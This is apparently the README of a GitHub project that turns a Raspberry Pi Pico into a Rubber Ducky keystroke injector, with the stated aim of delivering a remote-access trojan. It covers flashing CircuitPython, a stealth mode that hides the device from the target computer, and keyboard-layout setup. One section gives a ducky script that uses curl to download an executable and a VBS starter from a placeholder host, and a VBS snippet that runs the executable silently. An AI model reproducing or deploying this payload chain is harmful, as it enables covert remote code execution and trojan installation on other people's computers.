 <hr>


<h3 align="center">

  Raspberry Pi-Pico as Rubber Ducky.<br><br>
  <a href="#">
      <img src="https://img.shields.io/badge/License-GPLv3-blue.svg" alt="pico" height=24 title="pico">
    <img src="https://awesome.re/badge.svg" alt="Awesome" height=24>
    <img src="https://img.shields.io/github/contributors/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=success" alt="pico" height=24>
            <img src="https://img.shields.io/github/forks/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=red" alt="pico" height=24>
    <img src="https://img.shields.io/github/issues/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=orange" alt="pico" height=24>
  </a>
  
  
  
  
</h3>

# pi-pico-rubber-ducky

Aim is to run a R.A.T payload btw of a Raspberry Pi-Pico (rp2040) running ducky scripts. Part of : https://github.com/Denis-REMACLE/K-ptain.Ratz


### Using

1. To use this repo please download first the [Circuitpython .uf2 file](https://circuitpython.org/board/raspberry_pi_pico/) 
2. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
3. Jsut drag and drop the `.uf2` file into the root directory of the Pi Pico. The device will now reboot as `CIRCUITPY`.  
4. Download and copy the repo content to the Pico :
```sh
git clone https://github.com/nzkoxzu/pi-pico-rubber-ducky.git
```
```sh
cp -r pi-pico-rubber-ducky/* /media/username/CIRCUITPY/
```
5. [Create your own ducky script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) and save it as `payload.dd` in the Pico.
6. Careful, if your device isn't in setup mode, the device will reboot and after half a second, the ducky script will run.


# Setup mode

To edit the payload, enter setup mode by connecting the pin 1 (`GP0`) to pin 3 (`GND`), this will stop the pico-ducky from injecting the payload in your own machine. The easiest way to so is by using a jumper wire between those pins as seen bellow.

![setup-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/setup-mode.png)

# USB enable/disable mode

If you need the pico-ducky to not show up as a USB mass storage device for stealth, follow these instructions.
1. Enter setup mode.
2. Copy `boot.py` to the root of the pico-ducky.
Copy your `payload.dd` script to the pico-ducky.
Disconnect the pico from your host PC. Connect a jumper wire between pin 18 (`GND`) and pin 20 (`GPIO15`). This will prevent the pico-ducky from showing up as a USB drive when plugged into the target computer.
Remove the jumper and reconnect to your PC to reprogram. The default mode is USB mass storage enabled.

![usb-boot-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/usb-boot-mode.png)

# VBS silently starting malicious file 

For Windows, if you want to silently run `.exe` files you can run them with VBS. Your `payload.dd` should looks like this :

```dd
STRING curl.exe --output not_malicious_file.exe --url https://youwebsite.example/ressources/not_malicious_file.exe
ENTER
DELAY 1000
STRING curl.exe --output starter.vbs --url https://youwebsite.example/ressources/starter.vbs
ENTER
DELAY 1000
STRING wscript starter.vbs
ENTER
```
This will download `not_malicious_file.exe` and `starter.vbs`. The `starter.vbs` looks like this :

```vbs
Dim WShell
Set WShell = CreateObject("WScript.Shell")
WShell.Run "not_malicious_file.exe", 0
Set WShell = Nothing
```
This VBS file will launch `not_malicious_file.exe` and the `, 0` statement enable silent run.


# Changing Keyboard layouts
Copied from [Neradoc/Circuitpython_Keyboard_Layouts](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/blob/main/PICODUCKY.md)  

#### How to use one of these layouts with the pico-ducky repository.

**Go to the [latest release page](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/releases/latest), look if your language is in the list.**

#### If your language/layout is in the bundle

Download the `py` zip, named `circuitpython-keyboard-layouts-py-XXXXXXXX.zip`

**NOTE: You can use the mpy version targetting the version of Circuitpython that is on the device, but on Raspberry Pi Pico you don't need it - they only reduce file size and memory use on load, which the pico has plenty of.**

#### If your language/layout is not in the bundle

Try the online generator, it should get you a zip file with the bundles for yout language

https://www.neradoc.me/layouts/

#### Now you have a zip file

#### Find your language/layout in the lib directory

For a language `LANG`, copy the following files from the zip's `lib` folder to the `lib` directory of the board.  
**DO NOT** modify the adafruit_hid directory. Your files go directly in `lib`.  
**DO NOT** change the names or extensions of the files. Just pick the right ones.  
Replace `LANG` with the letters for your language of choice.

- `keyboard_layout_win_LANG.py`
- `keycode_win_LANG.py`

Don't forget to get [the adafruit_hid library](https://github.com/adafruit/Adafruit_CircuitPython_HID/releases/latest).

This is what it should look like **if your language is French for example**.

![CIRCUITPY drive screenshot](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/raw/main/docs/drive_pico_ducky.png)

#### Modify the pico-ducky code to use your language file:

At the start of the file comment out these lines:

```py
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS as KeyboardLayout
from adafruit_hid.keycode import Keycode
```

Uncomment these lines:  
*Replace `LANG` with the letters for your language of choice. The name must match the file (without the py or mpy extension).*
```py
from keyboard_layout_win_LANG import KeyboardLayout
from keycode_win_LANG import Keycode
```

##### Example:  Set to German Keyboard (WIN_DE)

```py
from keyboard_layout_win_de import KeyboardLayout
from keycode_win_de import Keycode
```

Copy the files keyboard_layout_win_de.mpy and keycode_win_de.mpy to the /lib folder on the Pico board
```
adafruit_hid/
keyboard_layout_win_de.mpy
keycode_win_de.mpy
```
<p align="right">(<a href="#top">back to top</a>)</p>


